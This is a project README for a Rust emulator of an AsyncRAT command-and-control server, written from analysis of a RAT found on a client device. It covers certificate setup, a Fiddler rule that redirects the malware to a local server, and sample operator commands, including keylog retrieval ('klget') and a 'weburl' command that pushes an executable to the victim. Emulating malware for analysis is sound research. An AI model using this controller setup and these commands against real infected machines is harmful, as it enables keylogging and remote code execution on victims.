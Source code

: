 # Generic AsyncRAT Server Emulator
- Rust-based emulator for AsyncRAT C2 server, handling TLS connections, gzip-compressed MessagePack payloads, and command sending via stdin. 
- Based off of the study of a .NET RAT that was found on a client device: [VirusTotal Scan](https://www.virustotal.com/gui/file/d9b84bb470f504814bd4b1e0bc5aa07297ddec881be54fd428e4564ac61c1fb1)

## Features
- TLS support with PKCS12 certificates.
- Decompresses and parses incoming MessagePack commands.
- Sends commands from stdin (e.g., "gettxt", "klget").
- Logs raw hex, decompressed data, and parsed commands.
- Strict Command enum for type-safe handling.

## Setup
1. Generate PKCS12 certificate (This step required me to patch the binary, but I also got around this by just patching the binary to skip the certificate check):
   ```
   openssl req -x509 -newkey rsa:2048 -keyout cert.key.pem -out cert.pem -days 3650 -nodes -subj "/CN=AsyncRAT Server"
   openssl pkcs12 -export -out certs/identity.pfx -inkey cert.key.pem -in cert.pem -password pass:toor
   ```

2. Build and run:
   ```
   cargo build
   cargo run
   ```
  
3. Setup Fiddler
- Enable fiddler's system proxy
- Create a rule that captures incoming traffic from https://pastebin.com
- Make the rule modify the response body with the following: `127.0.0.1:1030`

Now the virus will not be able to communicate with the actual C2 server, and fiddler will cause the virus to connect to this local rust server.

## Usage
- The server listens on `0.0.0.0:1030`.
- Send commands via stdin, e.g.:
  ```
  gettxt
  klget
  weburl http://example.com/file.exe .exe
  setxt test text
  block example.com
  ```

## Troubleshooting
- **TLS Errors**: Verify certificate patch in virus (e.g., `aatxTIJIMtuk` returns `true`), PKCS12 password, and TLS versions (TLS 1.0-1.2).
- **No Data**: If using NoPE Proxy / MITM Proxy, check their forwarding rules, virus IP routing, and hosts file.
- **Command Format**: Inspect logs for prefixes (e.g., `0x03 0x00 0x00`) and adjust in code if needed. Not sure if intentional, but there was always padding with `0x03 0x00 0x00` at the beginning of each payload.
- **Decompression**: Ensure gzip headers (`0x1f 0x8b 0x08`) in payloads; debug with CyberChef.
